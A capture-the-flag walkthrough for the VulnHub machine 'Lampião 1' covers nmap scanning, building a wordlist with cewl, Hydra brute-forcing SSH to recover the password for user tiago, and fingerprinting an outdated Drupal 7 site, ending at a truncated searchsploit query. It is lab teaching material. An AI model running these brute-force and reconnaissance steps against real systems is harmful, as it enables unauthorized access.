

#Lampiao #TiagoTavares #VulnHub #Hydra #Nmap #cewl  #Wappalyzer #whatweb #linpeas #Dirty #Cow #DirtyCow 


- **Name**: Lampião: 1
- **Date release**: 28 Jul 2018
- **Author**: [Tiago Tavares](https://www.vulnhub.com/author/tiago-tavares,581/)
- **Series**: [Lampião](https://www.vulnhub.com/series/lampiao,169/)

---
---

### Description

Would you like to keep hacking in your own lab?
Try this brand new vulnerable machine! "Lampião 1".

Get root!
Level: Easy

### File Information

[Back to the Top](https://www.vulnhub.com/entry/lampiao-1,249/#top)

- **Filename**: Lampiao.zip
- **File size**: 669 MB
- **MD5**: 7437D6FB83B63A7E14BB00F9C7A758B9
- **SHA1**: B5CDBF07E78557C19555E26715B99E0DCF2400D5

---

# Enumeration

```sh
# Find the machine
## Alternative command: "sudo netdiscover -i eth0 -r 192.168.56.0/24"
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth1

# netdiscover Output
Currently scanning: 192.168.170.0/16   |   Screen View: Unique Hosts
 5 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 300                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.122  08:00:27:bb:d0:0b      3     180  PCS Systemtechnik GmbH                         
 192.168.56.100  08:00:27:0e:39:40      1      60  PCS Systemtechnik GmbH                         
 192.168.56.121  0a:00:27:00:00:0c      1      60  Unknown vendor  


# nmap
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.122
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-01 08:20 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.122
Host is up (0.0015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=5/1%Time=681312B8%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1179,"\x20_____\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\|_\x20\x20\x20_\|\x20\|\x20\(                                                                                              
SF:\x20\)\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\                                                                                              
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20                                                                                              
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2                                                                                              
SF:0\x20\n\x20\x20\|\x20\|\x20\|\x20\|_\|/\x20___\x20\x20\x20\x20___\x20\x                                                                                              
SF:20__\x20_\x20___\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\                                                                                              
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20                                                                                              
SF:\n\x20\x20\|\x20\|\x20\|\x20__\|\x20/\x20__\|\x20\x20/\x20_\x20\\/\x20_
SF:`\x20/\x20__\|\x20\|\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20
SF:_\|\x20\|_\|\x20\|_\x20\x20\\__\x20\\\x20\|\x20\x20__/\x20\(_\|\x20\\__
SF:\x20\\\x20\|_\|\x20\|_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\\___/\x20\\__
SF:\|\x20\|___/\x20\x20\\___\|\\__,_\|___/\\__,\x20\(\x20\)\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20__/\x20\|/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|___/\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\n______\x20_\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\n\|\x20\x20___\(_\)\x20\x20
SF:\x20\x20\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\|\
SF:n\|\x20\|_\x20\x20\x20_\x20\x20\x20\x20__\|\x20\|_\x20\x20\x20_\x20_\x2
SF:0__\x20___\x20\x20\x20__\x20_\x20\x20\x20\x20___\x20\x20__\x20_\x20_\x2
SF:0\x20\x20_\x20\x20__\x20_\|\x20\|\n\|\x20\x20_\|\x20\|\x20\|\x20\x20/\x
SF:20_`\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x20\\\x20/\x20_`\x20\|\x20
SF:\x20/\x20_\x20\\/\x20_`\x20\|\x20\|\x20\|\x20\|/\x20_`\x20\|\x20\|\n\|\
SF:x20\|\x20\x20\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|_\|\x20\|\x20\|\x20
SF:\|\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|\x20\x20__/\x20\(_\|\x20\|\x20
SF:\|_\|\x20\|\x20\(_\|\x20\|_\|\n\\_\|\x20\x20\x20\|_\|\x20\x20\\__,_\|\\
SF:__,_\|_\|\x20\|_\|");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds


```

- 22 TCP - SSH
- 80 TCP - HTTP

Eager to check the website, but got this borderline satanic message


```txt
 _____ _   _                                                      
|_   _| | ( )                                                     
  | | | |_|/ ___    ___  __ _ ___ _   _                           
  | | | __| / __|  / _ \/ _` / __| | | |                          
 _| |_| |_  \__ \ |  __/ (_| \__ \ |_| |_                         
 \___/ \__| |___/  \___|\__,_|___/\__, ( )                        
                                   __/ |/                         
                                  |___/                           
______ _       _                                                _ 
|  ___(_)     | |                                              | |
| |_   _    __| |_   _ _ __ ___   __ _    ___  __ _ _   _  __ _| |
|  _| | |  / _` | | | | '_ ` _ \ / _` |  / _ \/ _` | | | |/ _` | |
| |   | | | (_| | |_| | | | | | | (_| | |  __/ (_| | |_| | (_| |_|
\_|   |_|  \__,_|\__,_|_| |_| |_|\__,_|  \___|\__, |\__,_|\__,_(_)
                                               __/ |              
                                              |___/                                                                                    
                                          ...                                  
                           ./(/.         .,/*/,..,.,..                         
                       ,,                      ..  ,.,..,(                     
                    %.                             .  ...,,.#                  
                 .&..                                    . .,.#                
               (.                                      .,/,/, .*#.             
            .#.                                             .,. .(#            
           (,                                                **, .#%           
         .%                                                    /,..(#          
        .,                                                      ((.,@*.        
       ..                           .,,      .                  ./( ,//        
       (...                 *(#&@@@@@@@@@@@@@@#/.                .,/*%,*       
      %(..               (@@@#   . ( / ,.%@@@@@@@@@@#,*,..  *     .,,*&(       
      @.           ,/#@@@@,  .   .  .,.    .*(@@@@@@@@%%@@@@@(/...,(*,@,,      
     *@.       /#@@@@@@@@ ../*/,..             .&@@@@@@@@@@@&((%(./(/#&&(      
     &(    .(@@@@@@@@@@@,        /*.     (@@%@@@@(##@@@@@@@@@@&@@###%/(@(      
    /@%/#&&@@@@@@*  @@@@    #%##&&&@&(  (@@%%%&&@@@%@@@@(.&@@@@@@@%%###@(.     
    &@@@@@@@@#.     ,@@@%*(@@%%/(&.@@&/%@@#,.#.%,&%&@%*   .%@@@@@@&*(@@%     
    %@@@@%,          .@@*   /*,%&%(@.%  (@./. *(*.@%*@@&        *%@@@@%&@(     
    .@&               %@% *. #. .(% ,.  *@#.  .  #.((@,             /@@@@%     
     ###               #&(*/.  *#*#@#    @&/  , ,,(/&(                *@@%     
     &(%.                  *(,    (@,    @ //*. /*/.,                 #@     
    ,%@@/                  .,/,.  .# (&%@@@% .% (/((             @.&/ ,%(/,    
     (#                   ./#* ,#.   *@*&,,/,(#, &%(          #%*@  %@/##    
     @&/%                    .&&*,@%%&@@@@#*, ./*.@. ((         **%#. (&(#*,   
     %@#%*                     @, (/*.(@@@@@%#*.#@/   ,,&      .%#@#   &(( #   
     .&(,                        %/*#*,.   ,,@@ .  .*.*@     (/@@.   *#(   
                                   /@%#,,/,,&@@(.   (&   &@&,&*@&     %,(    
                 #..&%               ,@&. /%@@(  .&@* #/@@%*/*/.(@# *%.        
             ,.&*  * ..,((.    .#  .%@@@&@&.  (@@ *&@@@/. . @ @&((&@@/#.     
         ,&. .*&/@*&,   ,/.   .&(   %. %%#.#   &&.%@@&@*.    .%,@&./.(.*%@&%,  
       ,/  /@@@%#&@@,.&/   .**  ./&* .#,(   .#@@@@# ,%,,.   .*,%@/.*, (..(@@,%%
    /*,@@@%&(%*@@@@& (,@#.  ,( . /,*&@@,(@@@*    ...   **(,&@,*,* .%/@&%**.
    @&&@@@,///#@@@@@@, ( /@*(*/# .(/&..* *@%,. &,*(,. .%@@*.%@%..,***%@@ .*%,
    @#,@&@@&&**#*/&@@@@@@*,.%*@@*/,,//* %   /@..,,#(/,.&@&*%  @@((,,(//@@#*  *%
    #& .#@@@@*,/(*@@@@@@@@& %.@*&@&,(%. &  . @*.*../@@, ..%,/  ##/.%@@@(..,(%
    .*. (@@@@@*,((@%&@@@@@@@@*  //&  ,@  ..@@#%%#,(&@@/*/%#,   ,@*.%@@@*,*.,#
     .  (@@@@@%.,@&&&@@@@@%@@@**&@(,/  *#  /% @/@@@@&@@* /// .( . .#*#@@&/ ..*&
       .,@@@@@@/%@%%#&@@@#@@@@@( ./#.  #,  ,. &/.,@@@@@(%&@/*   /...@%@@@ .,.(%
       .,&&@@@@(##%@@@%@@@&,*.,,%#   #      #@, /@@@. ,,,  .  .*.  &@@@.. ,*/
        .((@@@@#%* .#@#%@@(....((@@/   ,   ,  /@@&@// ,#@@#  ,..    &@@*. ..*
         /,@@@@%@,  /%@@* . .*/&(#%        .  /@@@@@#.(##@   *., .  ,  %##..,./
```


```sh
# nmap scan for all ports
# make it a habit to try scan all ports
# Port 1898
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.122 -p-

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-01 08:29 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.122
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Lampi\xC3\xA3o
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=5/1%Time=681314C0%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1179,"\x20_____\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\|_\x20\x20\x20_\|\x20\|\x20\(
SF:\x20\)\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\n\x20\x20\|\x20\|\x20\|\x20\|_\|/\x20___\x20\x20\x20\x20___\x20\x
SF:20__\x20_\x20___\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\n\x20\x20\|\x20\|\x20\|\x20__\|\x20/\x20__\|\x20\x20/\x20_\x20\\/\x20_
SF:`\x20/\x20__\|\x20\|\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20
SF:_\|\x20\|_\|\x20\|_\x20\x20\\__\x20\\\x20\|\x20\x20__/\x20\(_\|\x20\\__
SF:\x20\\\x20\|_\|\x20\|_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\\___/\x20\\__
SF:\|\x20\|___/\x20\x20\\___\|\\__,_\|___/\\__,\x20\(\x20\)\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20__/\x20\|/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|___/\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\n______\x20_\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\n\|\x20\x20___\(_\)\x20\x20
SF:\x20\x20\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\|\
SF:n\|\x20\|_\x20\x20\x20_\x20\x20\x20\x20__\|\x20\|_\x20\x20\x20_\x20_\x2
SF:0__\x20___\x20\x20\x20__\x20_\x20\x20\x20\x20___\x20\x20__\x20_\x20_\x2
SF:0\x20\x20_\x20\x20__\x20_\|\x20\|\n\|\x20\x20_\|\x20\|\x20\|\x20\x20/\x
SF:20_`\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x20\\\x20/\x20_`\x20\|\x20
SF:\x20/\x20_\x20\\/\x20_`\x20\|\x20\|\x20\|\x20\|/\x20_`\x20\|\x20\|\n\|\
SF:x20\|\x20\x20\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|_\|\x20\|\x20\|\x20
SF:\|\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|\x20\x20__/\x20\(_\|\x20\|\x20
SF:\|_\|\x20\|\x20\(_\|\x20\|_\|\n\\_\|\x20\x20\x20\|_\|\x20\x20\\__,_\|\\
SF:__,_\|_\|\x20\|_\|");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.17 seconds
```


And this Site http://192.168.56.122:1898/ have a much different webpage with a login!


As you can see on this webpage, there are some articles submitted by different users:
- tiago
- Eder

---
---

# Foothold 🦶

Make a txt-file username wordlist with these two user names
- tiago
- Eder
## cewl

#### 🧠 **What does `cewl` do?**

`cewl` (short for **Custom Word List**) is a super useful **OSINT/recon tool** for **password wordlist generation**. It's ideal when you're trying to create targeted wordlists based on information found on a specific website—especially useful in **penetration testing, CTFs**, or **real-world password attacks**.

`cewl` crawls a website and scrapes **unique words** found in the page content. It then **outputs them into a wordlist file** that you can use for tools like `Hydra`, `John the Ripper`, `Burp Suite`, or `Hashcat`.

#### 🔧 **Basic Syntax** 🔧
`cewl https://example.com -w wordlist.txt`

#### 🔥 **Common Options**

| Option    | Description                                  |
| --------- | -------------------------------------------- |
| `-d`      | Depth of crawl (default is 2)                |
| `-m`      | Minimum word length (default is 3)           |
| `-w`      | Save to wordlist file                        |
| `-e`      | Include email addresses                      |
| `-v`      | Verbose output                               |
| `--meta`  | Include metadata (from PDF, Word, etc.)      |
| `--ua`    | Set custom User-Agent (bypass basic filters) |
| `--proxy` | Route traffic via proxy (e.g. Burp)          |

So let's make a wordlist based on the website address

```
┌──(kali㉿kali)-[~]
└─$ cewl http://192.168.56.122:1898/ -w lampiao_wordlist.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

```

## Hydra

```

┌──(kali㉿kali)-[~]
└─$ hydra -L username.txt -P lampiao_wordlist.txt ssh://192.168.56.122
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-23 16:42:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1688 login tries (l:2/p:844), ~106 tries per task
[DATA] attacking ssh://192.168.56.122:22/
[22][ssh] host: 192.168.56.122   login: tiago   password: Virgulino
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

## SSH

#### login: tiago
#### password: Virgulino

```
┌──(kali㉿kali)-[~]
└─$ ssh tiago@192.168.56.122          
The authenticity of host '192.168.56.122 (192.168.56.122)' can't be established.
ED25519 key fingerprint is SHA256:GGW0ASyjbhMycAKiglcXcsa0HvSwkLHZP9bQBtVrPs8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.122' (ED25519) to the list of known hosts.
tiago@192.168.56.122's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Fri May 23 11:43:00 BRT 2025

  System load:  0.1               Processes:           141
  Usage of /:   7.5% of 19.07GB   Users logged in:     0
  Memory usage: 9%                IP address for eth0: 192.168.56.122
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Fri Apr 20 14:40:55 2018 from 192.168.108.1
tiago@lampiao:~$ whoami
tiago
```

This method gave us user access, but we need root access, we can do that my exploiting further


---

## Wappalyzer


Nice! 🎉 Wappalyzer is a powerful tool for reconnaissance—especially useful if you're into penetration testing or just curious about the technologies behind websites.
With it, you can quickly identify:

* Web frameworks (like Django, Laravel, or Ruby on Rails)
* CMS platforms (like WordPress, Joomla)
* JavaScript libraries (like React, Vue.js)
* Server software (Apache, Nginx)
* Analytics tools, CDNs, eCommerce platforms, and more.

It’s a great way to build a profile of your target during the initial stages of a pentest or CTF.


### Alternative use whatweb inside the terminal


```bash
#whatweb
┌──(kali㉿kali)-[~]
└─$ whatweb 192.168.56.122:1898
http://192.168.56.122:1898 [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[192.168.56.122], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.24], PasswordField[pass], Script[text/javascript], Title[Lampião], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24]

# This breaks the data down more clearly per plugin used
┌──(kali㉿kali)-[~]
└─$ whatweb -v 192.168.56.122:1898
WhatWeb report for http://192.168.56.122:1898
Status    : 200 OK
Title     : Lampião
IP        : 192.168.56.122
Country   : RESERVED, ZZ

Summary   : Apache[2.4.7], Content-Language[en], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PasswordField[pass], PHP[5.5.9-1ubuntu4.24], Script[text/javascript], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and 
        maintain an open-source HTTP server for modern operating 
        systems including UNIX and Windows NT. The goal of this 
        project is to provide a secure, efficient and extensible 
        server that provides HTTP services in sync with the current 
        HTTP standards. 

        Version      : 2.4.7 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ Content-Language ]
        Detect the content-language setting from the HTTP header. 

        String       : en

[ Drupal ]
        Drupal is an opensource CMS written in PHP. 

        Aggressive function available (check plugin file or details).
        Google Dorks: (1)
        Website     : http://www.drupal.org

[ HTTPServer ]
        HTTP server header string. This plugin also attempts to 
        identify the operating system from the server header. 

        OS           : Ubuntu Linux
        String       : Apache/2.4.7 (Ubuntu) (from server string)

[ JQuery ]
        A fast, concise, JavaScript that simplifies how to traverse 
        HTML documents, handle events, perform animations, and add 
        AJAX. 

        Website     : http://jquery.com/

[ MetaGenerator ]
        This plugin identifies meta generator tags and extracts its 
        value. 

        String       : Drupal 7 (http://drupal.org)

[ PHP ]
        PHP is a widely-used general-purpose scripting language 
        that is especially suited for Web development and can be 
        embedded into HTML. This plugin identifies PHP errors, 
        modules and versions and extracts the local file path and 
        username if present. 

        Version      : 5.5.9-1ubuntu4.24
        Google Dorks: (2)
        Website     : http://www.php.net/

[ PasswordField ]
        find password fields 

        String       : pass (from field name)

[ Script ]
        This plugin detects instances of script HTML elements and 
        returns the script language/type. 

        String       : text/javascript

[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all 
        the standard headers and many non standard but common ones. 
        Interesting but fairly common headers should have their own 
        plugins, eg. x-powered-by, server and x-aspnet-version. 
        Info about headers can be found at www.http-stats.com 

        String       : x-content-type-options,x-generator (from headers)

[ X-Frame-Options ]
        This plugin retrieves the X-Frame-Options value from the 
        HTTP header. - More Info: 
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : SAMEORIGIN

[ X-Powered-By ]
        X-Powered-By HTTP header 

        String       : PHP/5.5.9-1ubuntu4.24 (from x-powered-by string)

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Fri, 23 May 2025 12:03:39 GMT
        Server: Apache/2.4.7 (Ubuntu)
        X-Powered-By: PHP/5.5.9-1ubuntu4.24
        Expires: Sun, 19 Nov 1978 05:00:00 GMT
        Cache-Control: no-cache, must-revalidate
        X-Content-Type-Options: nosniff
        Content-Language: en
        X-Frame-Options: SAMEORIGIN
        X-Generator: Drupal 7 (http://drupal.org)
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 3269
        Connection: close
        Content-Type: text/html; charset=utf-8

```

We can confirm, that the site use the CMS with the name of Drupal which is outdated.

**Drupal 7** is **very old**—it was **released in January 2011**, so as of **2025**, it's over **14 years old**.

| Event                                                    | Date                    |
| -------------------------------------------------------- | ----------------------- |
| 📦 Initial Release                                       | January 5, 2011         |
| ⏳ End of Community Support (original plan)               | November 2021           |
| 🔄 Extended Support (due to COVID-19 & migration delays) | Through January 5, 2025 |
| ☠️ **End of life (final extension)**                     | **January 5, 2025**     |
✅ So as of **now**, **Drupal 7 is officially EOL (End of Life)** — it no longer receives **security updates** or **bug fixes**, even for critical issues.

### 🚨 Why this matters in security

- **Known vulnerabilities** (like Drupalgeddon and its variants) are widely available.
- Many exploits can result in **unauthenticated RCE** (Remote Code Execution).
- It’s often installed with **old PHP versions** (like in your WhatWeb output: PHP 5.5.9), which have **their own vulnerabilities**.


---

## searchsploit

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit drupal 7
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
